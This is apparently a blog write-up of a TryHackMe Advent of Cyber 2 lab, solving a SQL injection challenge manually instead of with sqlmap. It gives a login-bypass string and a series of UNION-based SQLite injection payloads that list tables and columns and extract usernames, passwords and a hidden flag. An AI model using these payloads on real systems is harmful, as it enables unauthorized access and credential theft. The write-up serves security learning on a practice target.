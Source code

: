 ```yaml
---
layout: post
title:  "Advent of Cyber 2 - Day 5 (Manual Mode)"
date:   2020-12-06 00:12:21 -0400
category: [writeups]
challenge-source: [TryHackMe]
challenge-category: ['Web Exploitation']
tags: [TryHackMe]
author: shinris3n
---
```


<a href = "https://tryhackme.com/" target="_blank"><img src="/assets/writeups/TryHackMe/THMlogo.png" width="225"></a>

<h2>Someone stole Santa's gift list!</h2>
Using sqlmap was a nice and straightforward way of solving this challenge, but I was curious how it could be solved manually.  I saw that others were also interested in the AoC2 Discord channel, so I decided to take a crack at it and share a possible solution.

- Taking it from the top for the sake of having a complete walkthrough to the Day 5 challenge, this is the page we're provided with to start:

![santas_official_forum_frontpage.png](/assets/writeups/TryHackMe/AoC2D5/santas_official_forum_frontpage.png)

- There's not really much to see in the page source, but as the challenge states to find "Santa's secret login panel and bypass the login", we can make some educated guesses (as instructed in the first challenge question) to find the panel at /santapanel:

![santapanel.png](/assets/writeups/TryHackMe/AoC2D5/santapanel.png)

- A simple and classic SQLi gets us in:

`'or 1=1--`

![badboilogin.png](/assets/writeups/TryHackMe/AoC2D5/badboilogin.png)

- Just to take a look at what information we have access to upfront, we can get all search button related output by trying a wildcard:

![37de0ab710e9d480cc41b2ed5193a753.png](/assets/writeups/TryHackMe/AoC2D5/d01b15ca70e045c397034252c2769587.png)

- As for an injection vector, one of the provided resources for this challenge includes a [list of generic payloads](https://github.com/payloadbox/sql-injection-payload-list){:target="_blank"} that we can try out. Here's one string that yields an error message:

![fba82e82ee07183820e349147aa9c123.png](/assets/writeups/TryHackMe/AoC2D5/06fa999848894cbd964eeb2da8ec5041.png)

- It looks like this will work, we just need to make a small adjustment because we have 2 output columns:

`Badboi' UNION SELECT 1, 2--`

![031ad161871e6b41493e28d231633b90.png](/assets/writeups/TryHackMe/AoC2D5/29f06dd5da49482e9f67fd8114809547.png)

- Now we need to leverage this vulnerability to find out what tables are in the database.  We had a hint in the challenge text:

`Santa's TODO: Look at alternative database systems that are better than sqlite.` 

- Based on this, we can assume SQLite is the database that is running.  The search for some payloads that we can adapt is made easier thanks to [another resource shared in the challenge description](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md){:target="_blank"}. Re-working the syntax of the *"Integer/String based - Extract table name"* payload just a bit:

`Badboi' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--`

![3a432b4959a9aac3e635618b51163f41.png](/assets/writeups/TryHackMe/AoC2D5/dd2ff72ac7644a869b52e2842fd71317.png)

- And then doing the same with a payload for column discovery:

`BadBoi' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--`

![1c5324b827db2a2ea0f7ed1018c3526f.png](/assets/writeups/TryHackMe/AoC2D5/46fd0eb327d442d6a303186db5e233ab.png)

- After doing this for each table, we can output the contents of the details we want to see:

`BadBoi' UNION SELECT 1, username FROM users--`

![0bdc0e71277868101f7c77e063bf562e.png](/assets/writeups/TryHackMe/AoC2D5/080978b7226f40b6964ca21d86c4260d.png)

`BadBoi' UNION SELECT 1, password FROM users--`

![2a4d9996142daa35fd8ac35f9258056c.png](/assets/writeups/TryHackMe/AoC2D5/ba3b17ac13b546db8a400c979b7bd644.png)

- In a more targeted fashion that might have been useful in other situations:  

`BadBoi' UNION ALL SELECT NULL, password FROM users WHERE username LIKE 'Admin' --`

![d9f814e92318bf197fa8e1369ee879d1.png](/assets/writeups/TryHackMe/AoC2D5/49a29d9f490f42e6bdad559338426d66.png)

- or

`BadBoi' UNION SELECT 1, kid FROM sequels WHERE title LIKE '%Try%' --`

![2538f2ad6752664f59a38c8bf769565b.png](/assets/writeups/TryHackMe/AoC2D5/6319907a5e6346239668f91a4c1c26e3.png)

- and in the case of the challenge we also specifically want:

`BadBoi' UNION SELECT 1, flag FROM hidden_table --`

![a7b2d6fdbc6a1a55e416899387936018.png](/assets/writeups/TryHackMe/AoC2D5/b9d2ecbcf5b643a3ac05bfc94c3a85dc.png)

It was worth taking the extra time to solve the challenge this way, and I definitely appreciate sqlmap for all it automates and how it formats things a lot more now.